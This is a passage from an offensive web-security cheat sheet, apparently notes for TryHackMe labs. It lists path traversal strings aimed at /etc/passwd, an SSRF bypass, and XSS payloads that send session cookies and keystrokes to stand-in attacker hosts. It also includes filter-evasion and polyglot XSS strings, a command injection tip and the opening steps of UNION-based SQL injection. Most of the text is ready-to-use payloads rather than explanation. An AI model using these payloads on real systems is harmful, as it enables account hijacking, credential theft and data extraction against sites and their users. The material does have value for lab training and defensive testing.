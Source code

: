     /etc/passwd
    ../../../../etc/passwd
    ../../../../etc/passwd%00
    ....//....//....//....//etc/passwd (Filter that replace ../ by empty string)
    <forced directory>../../../../etc/passwd (When a directory is forced, include it)

## SSRF
Bypass starting URL constraints (cannot start by /private) : x/../private

## XSS
Session Stealing:

    </textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>

Key Logger:

    <script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>

Business Logic:

    <script>user.changeEmail('attacker@hacker.thm');</script>

Some payloads :

    <script>alert('THM');</script>
    "><script>alert('THM');</script> (when the input is inside a tag <>)
    </textarea><script>alert('THM');</script> (when input is between <textarea> tags)
    ';alert('THM');// (when js get the input with  document.getElementsByClassName('name')[0].innerHTML='Adam')
    <sscriptcript>alert('THM');</sscriptcript> (when "script" is filtered)
    onload="alert('THM'); (when inside an image tag and "<" ">" are filtered
    

Polyglot (c'est OP)

    jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/-       -!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e

## Command Injection 
https://github.com/payloadbox/command-injection-payload-list

Use ";" to chain syscall.

## SQL Injection

### In-Band SQLi

First we have to check how many columns there are to select : select 1 -> select 1,2 -> select 1,2,3 ....

    0 UNION SELECT 1,2,database()  (database() returns the name of the database) 

Once we know the name of the database, we get the tables of the database
